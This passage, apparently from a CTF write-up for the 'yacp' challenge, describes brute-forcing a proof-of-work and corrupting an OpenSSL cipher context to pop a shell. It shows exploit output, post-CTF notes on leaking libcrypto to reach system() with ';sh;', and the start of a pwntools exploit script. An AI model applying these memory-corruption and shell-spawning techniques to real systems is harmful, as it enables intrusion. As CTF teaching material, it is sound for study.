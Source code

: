 ```
Welcome to the cryptotool!
Because apparently, you can never have too much crypto!
Before we begin, please enter the magic word.
It starts with f06cd76088a3a403 and is 32 characters long.
Magic word?
```

By reversing the binary we see that the 8 hex bytes are generated randomly, while the length is always 32. To generate the magic word we have to append 16 bytes after the 16 hex digits, such that the SHA-256 hash of the word has its upper 28 bits set. This will require on average `2^28 / 2` hash calculations, which can bruteforced in a short time.

Finally, we get a remote shell:

```
[+] Opening connection to yacp.chal.pwning.xxx on port 7961: Done
[+] Solving challenge...
[+] Found magic word: c1bc9a75c1b5ec6c           !g,HF
[+] Leaked libcrypto base: 0xf757c000
[*] Switching to interactive mode
$ cat /home/yacp/flag
PCTF{porque_no_los_dos}
```

## Post-CTF considerations

After the CTF I realized this can be made much simpler:

* Instead of bruteforcing keys and overflowing encrypted PKCS padding into `buffer_size`, we can exploit the fact that `buffer_size` for the output buffer will be set to 2048 + block size, which can then be used to overflow our desired size into `buffer_size`;
* `libc` is loaded at a fixed offset before `libcrypto`, so we can derandomize `libc` using the `libcrypto` leak and call `system()`. The first argument passed to `cleanup` is the `EVP_CIPHER_CTX *`. Since `EVP_CIPHER_CTX.cipher` doesn't contain NUL bytes, we can just corrupt `EVP_CIPHER_CTX.engine` to `;sh;` to get a shell.

You live, you learn :)

## Exploit code

This has been reworked after the CTF just to make it easier to read, the exploit is the one described in this writeup (I didn't change it to the simpler way).

```python
#!/usr/bin/python2

from pwn import *
from Crypto.Cipher import DES
import itertools
import hashlib
import sys

# 08 08 08 08 08 08 08 08 -> 08 50 00 00 3e 94 31 26
CIPHER = 'des-ecb'
CORRUPT_KEY = '\x0e\xac\x44\x3a\x41\x41\x41\x41'

# Safe buffers for auxiliary data: 12-21
NUM_BUFS = 32
BUF_SIZE = 2048
BUFFER_ADDR = 0x0804c0e0

def make_choice(n):
    p.recvuntil('5. Display data\n')
    p.sendline(str(n))

def load_data(buf, data):
```